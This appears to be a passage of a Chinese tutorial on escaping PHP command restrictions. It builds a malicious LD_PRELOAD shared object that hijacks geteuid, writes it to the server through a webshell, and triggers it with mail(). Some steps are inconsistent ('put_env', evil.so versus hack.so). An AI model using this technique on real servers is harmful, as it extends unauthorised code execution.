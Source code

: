 ```bash
65: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND geteuid@GLIBC_2.17 (2)
```

编写恶意 so -> 通过 putenv 来设置 LD\_PRELOAD 变量 -> 触发 mail 函数来调用我们编写的恶意 so

```bash
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
    system("id > /tmp/evil.txt");
}
int geteuid()
{
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

劫持 sendmail 使用的 geteuid 库函数，在其中调用 payload() 函数

payload() 函数执行 id 命令输出到/tmp/evil.txt 进行测试

在一个与目标机器系统环境相近的环境下进行编译

```bash
gcc -c -fPIC evil.c -o evil
gcc -shared evil -o evil.so
```

把 evil.so 进行 base64 编码，利用 webshell，通过 file\_put\_contents 写入恶意 so

```bash
PostData:
1=file_put_contents('/tmp/evil.so',base64_decode(''))
```

写一点代码

```bash
<?php
put_env("LD_PRELOAD=/tmp/evil.so");
mail("mo60@localhost","","");
?>
```

将这段代码 base64 后写入文件随后访问，如果使用命令行在编码时需要注意转义引号

```bash
echo "<?php
putenv(\"LD_PRELOAD=/var/www/hack.so\");
mail(\"a@localhost\",\"\",\"\",\"\",\"\");
?>"|base64
PD9waHAKcHV0ZW52KCJMRF9QUkVMT0FEPS92YXIvd3d3L2hhY2suc28iKTsKbWFpbCgiYUBsb2NhbGhvc3QiLCIiLCIiLCIiLCIiKTsKPz4K
```
